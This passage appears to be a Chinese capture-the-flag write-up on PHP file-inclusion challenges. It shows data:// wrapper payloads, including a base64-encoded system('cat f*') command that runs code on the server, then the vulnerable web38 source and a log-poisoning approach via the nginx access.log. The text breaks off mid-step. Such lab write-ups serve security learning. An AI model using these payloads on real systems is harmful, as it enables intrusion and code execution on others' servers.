 #### data://

> 数据流封装器，以传递相应格式的数据。可以让用户来控制输入流，当它**与包含函数结合**时，用户输入的data://流会被**当作php文件执行**。

实例：

```php
1、data://text/plain,
http://127.0.0.1/include.php?file=data://text/plain,<?php%20phpinfo();?>
 
2、data://text/plain;base64,
http://127.0.0.1/include.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
```



于是我们可以使用payload:

```php
?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZionKTs/Pg==  
//将 <?php system('cat f*');   进行base64编码
```



### web38

```php
 <?php
//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|php|file/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
} 
```

可以使用上一题解法，但是过滤了php，可以使用 <?= 代替 <? php

也可以使用**日志文件包含**：

抓包得知该网站为 nginx 中间件，所以日志文件的路径为：

```php
/var/log/nginx/access.log
```

我们将网页抓包：

![image-20221223192438921](https://s2.loli.net/2022/12/23/oEwH24bsU9XWBa1.png)

修改网站的 UA 为：
